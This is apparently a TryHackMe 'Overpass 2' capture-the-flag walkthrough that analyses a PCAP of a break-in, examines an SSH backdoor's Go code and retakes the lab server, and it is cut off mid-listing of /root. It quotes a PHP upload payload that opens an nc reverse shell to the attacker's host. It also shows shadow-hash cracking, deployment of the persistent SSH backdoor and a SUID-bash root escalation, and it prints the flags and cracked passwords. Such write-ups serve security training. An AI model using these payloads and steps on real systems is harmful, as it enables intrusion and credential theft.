

# Overpass 2 - Hacked
Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing Linux Fundamentals as a bare minimum.

md5sum of PCAP file: 11c3b2e9221865580295bc662c35c6dc

## Files
overpass2.pcapng

## Task 1: Forensics - Analyse the PCAP
### What was the URL of the page they used to upload a reverse shell?
You can find some HTTP streams in the PCAP, requesting the URL `/development/`. This is the first one:
```
GET /development/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 21 Jul 2020 01:38:24 GMT
If-None-Match: "588-5aae9add656f8-gzip"

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:33:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Tue, 21 Jul 2020 01:38:24 GMT
ETag: "588-5aae9add656f8-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 675
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

[...]
```

It seems that it contains a Beta upload interface, which isn't pretty secure:
```html
<body>
  <nav>
    
    <h2 class="navTitle"><a href="/">Overpass</a></h2>
    <a href="/aboutus">About Us</a>
    <a href="/downloads">Downloads</a>
  </nav>
  <div class="bodyFlexContainer content">
    <div>
      <div>
        <h3 class="formTitle">Overpass Cloud Sync - BETA</h1>
      </div>
      <!-- Muiri tells me this is insecure, I only learnt PHP this week so maybe I should let him fix it? Something about php eye en eye? -->
      <!-- TODO add downloading of your overpass files -->
      <form action="upload.php" method="post" enctype="multipart/form-data">
        <div class="formElem"><label for="fileToUpload">Upload your .overpass file for cloud synchronisation</label><input type="file"
            name="fileToUpload" id="fileToUpload"></div>
        <div class="formElem"><input type="submit" value="Upload File" name="submit"></div>
      </form>
    </div>
  </div>
```

### What payload did the attacker use to gain access?
In the HTTP response, we saw that a POST request is needed to upload a file. So if we are looking for POST request, we can find a request with the payload:
```
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.

[...]
```

The Payload is `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

### What password did the attacker use to privesc?
If we filter the PCAP for the port 4242 (`tcp.port == 4242`), we can find the TCP stream over that the attacker interacts with the reverse shell:
```
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL

[...]
```
The attacker tried to get higher privileges (_su_ and _sudo_) and uses the password: `whenevernoteartinstant`

Before he uses the password, he prints out the Overpass-Database. Probably he found the password in there. From the previous room ([Overpass](./Overpass/Overpass.md)), we know that the algorithm is ROT47. So throwing `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.` into CyberChef, gives us `[{"name":"System","pass":"whenevernoteartinstant"}]`.

### How did the attacker establish persistence?
After the attacker were able to escalate his privileges, he took a look at the _/etc/shadow_. So we have also the hashed user password.

In the next step he downloaded a ssh-backdoor from GitHub and installs a ssh-key:
```
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

So the attacker established persistence with `git clone https://github.com/NinjaJc01/ssh-backdoor`


### Using the fasttrack wordlist, how many of the system passwords were crackable?
Like already written before, the attacker printed out the _/etc/shadow_:
```
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$
```

We can use this to try to crack the passwords with the fasttrack wordlist:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ cat shadow            
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ john --wordlist=/usr/share/set/src/fasttrack/wordlist.txt shadow                                                                                  130 ⨯
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)     
4g 0:00:00:00 DONE (2023-09-12 11:24) 4.081g/s 226.5p/s 1132c/s 1132C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ 
```

So we got `4` passwords.

## Task 2: Research - Analyse the code
Now that you've found the code for the backdoor, it's time to analyse it.

### What's the default hash for the backdoor?
In the GitHub repo is a file called `main.go`. This seems to be the main functional file of the backdoor. If we open it, we can see directly a global variable:
```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```
This seems to be the default hash.

### What's the hardcoded salt for the backdoor?
Looking further, we can find this function, which is using a salt.
```go
func verifyPass(hash, salt, password string) bool {
	resultHash := hashPassword(password, salt)
	return resultHash == hash
}
```
The function is called in another function, were the salt is handed over:
```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

### What was the hash that the attacker used? - go back to the PCAP for this!
In the PCAP we can see that the attacker created a new keypair and called the backdoor afterwarts:
```
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```
As we can see he used the `./backdoor -a` parameter, which declares the hash for the backdoor:
```go
flaggy.UInt(&lport, "p", "port", "Local port to listen for SSH on")
flaggy.IP(&lhost, "i", "interface", "IP address for the interface to listen on")
flaggy.String(&keyPath, "k", "key", "Path to private key for SSH server")
flaggy.String(&fingerprint, "f", "fingerprint", "SSH Fingerprint, excluding the SSH-2.0- prefix")
flaggy.String(&hash, "a", "hash", "Hash for backdoor")
flaggy.Parse()
```

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?
With a page like https://www.tunnelsup.com/hash-analyzer/ we can find out, that the hash is SHA-512. Also, we already know, that there is a salt used.

To crack we can use for example john:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ cat hash
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)' hash                                                           130 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha512($p.$s) [256/256 AVX2 4x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
november16       (?)     
1g 0:00:00:00 DONE (2023-09-13 09:34) 1.388g/s 28000p/s 28000c/s 28000C/s yasmeen..spongy
Use the "--show --format=dynamic=sha512($p.$s)" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ 
```
John uses a `$` as delimiter in the hash file. With the format `--format='dynamic=sha512($p.$s)'`, we define using SHA512 with a provided salt.

Also, we could use hashcat:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ cat hash                                                                                                                                         130 ⨯
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ hashcat -a 0 -m 1710 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-6600K CPU @ 3.50GHz, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Initializing backend runtime for device #1. Please be patient...
Host memory required for this attack: 0 MB


Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1710 (sha512($pass.$salt))
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Wed Sep 13 09:42:04 2023 (0 secs)
Time.Estimated...: Wed Sep 13 09:42:04 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   107.1 kH/s (0.18ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 17408/14344385 (0.12%)
Rejected.........: 0/17408 (0.00%)
Restore.Point....: 16896/14344385 (0.12%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: felton -> petey
Hardware.Mon.#1..: Util: 34%

Started: Wed Sep 13 09:41:36 2023
Stopped: Wed Sep 13 09:42:05 2023
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ 
```
Hashcat needs a `:` as delimiter in the hash file. `-a 0` sets the dictionary attack mode and `-m 1710` sets the salted hash mode for SHA512 (`sha512($pass.$salt)`), which can be found with `hashcat --help`.

So our password is: `november16`

## Task 3: Attack - Get back in!
Now that the incident is investigated, Paradox needs someone to take control of the Overpass production server again.

There's flags on the box that Overpass can't afford to lose by formatting the server!

### The attacker defaced the website. What message did they leave as a heading?
If we open the machines IP address in the browser we see the following defaced website:


### Using the information you've found previously, hack your way back in!
In the output of the installation process from the backdoor we saw the port:
```
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

As well, we can find the open port via nmap:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ nmap $IP                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 10:28 EDT
Nmap scan report for 10.10.140.227
Host is up (0.033s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ 
```

So we can try to log on over the ssh-port 2222 with the password that we cracked earlier (`november16`):
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ ssh james@$IP -p 2222                                                                                                                            130 ⨯
Unable to negotiate with 10.10.140.227 port 2222: no matching host key type found. Their offer: ssh-rsa
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass2]
└─$ ssh james@$IP -p 2222 -oHostKeyAlgorithms=+ssh-rsa                                                                                               255 ⨯
The authenticity of host '[10.10.140.227]:2222 ([10.10.140.227]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.140.227]:2222' (RSA) to the list of known hosts.
james@10.10.140.227's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```
_Note: If you get an error saying "Unable to negotiate with <IP> port 22: no matching how to key type", this is because OpenSSH have deprecated ssh-rsa. Add "-oHostKeyAlgorithms=+ssh-rsa" to your command to connect._

So we have access to the system.

Trying to get root rights with the password, that we find earlier (`whenevernoteartinstant`) wasn't successful:
```
james@overpass-production:/home/james/ssh-backdoor$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
sudo: 1 incorrect password attempt
james@overpass-production:/home/james/ssh-backdoor$ 
```

Log in as one of the other users with their related passwords doesn't work as well.

### What's the user flag?
The user flag can be found in the directory of the user james:
```
james@overpass-production:/home/james$ ls -al 
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james$ 
```

### What's the root flag?
In the home directory of the user james is another interesting file: `.suid_bash`. It has SUID and GUID bits set and belongs to the user root:
```
james@overpass-production:/home/james$ ls -al 
total 1136
drwxr-xr-x 7 james james    4096 Sep 13 14:45 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www
james@overpass-production:/home/james$
```

It looks like a backdoor to get root rights again with the user. If we take a closer look at the file, it seems to be a bash binary:
```
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ls -al .suid_bash 
-rwsr-sr-x 1 root root 1113504 Jul 22  2020 .suid_bash
james@overpass-production:/home/james$ ls -al /bin/bash 
-rwxr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
james@overpass-production:/home/james$ 
james@overpass-production:/home/james$ diff .suid_bash /bin/bash 
james@overpass-production:/home/james$ 
```
It has the same size and the same content.

So let's run it to get root rights:
```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# ls -al /root/
total 28
drwx------  4 root root 4096 Jul 22  2020 .
drwxr-xr-x 23 root root 4096 Aug 14  2020 ..
